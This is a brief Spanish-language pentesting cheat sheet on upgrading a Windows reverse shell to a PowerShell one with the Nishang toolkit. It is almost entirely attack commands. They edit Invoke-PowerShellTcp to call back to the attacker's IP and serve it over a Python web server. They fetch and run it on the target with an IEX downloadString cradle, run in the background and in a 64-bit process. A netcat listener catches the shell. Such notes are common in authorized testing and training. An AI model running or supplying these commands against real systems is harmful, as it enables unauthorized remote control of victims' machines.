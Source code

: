 Cuando obtenemos una shell reversa en un entorno Windows y queremos migrar a una shell Powershell que nos permite tener más comandos.

>Obtener nishang de github.
>En el directorio /opt de máquina local, descargar Nishang.
`git clone https://github.com/samratashok/nishang.git`
>Modificar el archivo /shells/Invoke-Powershell.ps1, última línea.
`Invoke-Powershell -Reverse -IPAddress <own_ip> -Port <443>`
>Compartir servidor con python donde se encuentra el archivo Invoke-Powershell.ps1 en la máquina local.
`python -m SimpleHTTPServer 80`
>Transferir archivo Invoke-Powershell.ps1 desde la máquina objetivo.
`powershell IEX(New-Object Net.WebClient).downloadString('http://<own_ip>:<puerto>/archivo'`
>Si se quiere ejecutar directamente en segundo plano:
`start /b powershell IEX(New-Object Net.WebClient).downloadString('http://<own_ip>:<puerto>/archivo'`
>Comprobar environment y process architecture en powershell
`[environment]::is64BitOperatingSystem`
`[environment]::is64BitProcess`
>Migrar a un proceso de 64 bits, solución llamar a Powershell desde la ruta nativa del sistema
`start /b C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<own_ip>:<puerto>/archivo'`
>Recibir la shell inversa en máquina local
`rlwrap nc -nlvp 443`
